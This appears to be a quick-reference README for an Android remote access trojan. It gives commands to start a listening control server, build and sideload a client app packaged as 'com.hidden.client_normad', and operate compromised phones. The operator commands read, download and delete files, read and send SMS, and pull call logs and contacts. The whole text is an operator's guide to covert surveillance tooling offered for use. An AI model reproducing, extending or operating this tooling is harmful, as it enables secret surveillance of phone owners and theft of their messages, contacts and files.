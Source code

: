 # RAT System Quick Reference

## 🚀 Quick Start Commands

```bash
# Start server
cd Server_normad && python main.py --host 0.0.0.0 --port 1337

# Build & install client
cd Client_normad && ./gradlew assembleDebug
adb install -r app/build/outputs/apk/debug/app-debug.apk
adb shell am start -n com.hidden.client_normad/.MainActivity

# Connect to session
RAT> sessions
RAT> session 1
```

## 📋 Command Cheat Sheet

### 🔧 Basic Commands
```bash
ping                    # Test connection
device_info            # Get device information
sessions               # List active sessions (from RAT>)
session <id>           # Connect to session
back                   # Return to main prompt
exit                   # Exit server
```

### 📁 File Operations
```bash
file_dirs              # Get Android directories
file_list <path>       # List files in directory
file_download <file>   # Download file from device
file_upload <name:b64> # Upload file to device
file_delete <file>     # Delete file/directory

# Examples:
file_list /sdcard
file_list /storage/emulated/0/Download
file_download /sdcard/photo.jpg
file_delete /sdcard/temp.txt
```

### 📱 SMS & Communication
```bash
sms_read [limit]       # Read SMS messages
sms_send <num:msg>     # Send SMS message
call_log [limit]       # Get call history
contacts [limit]       # Get contact list

# Examples:
sms_read 20
sms_send +1234567890:Hello World
call_log 50
contacts 100
```
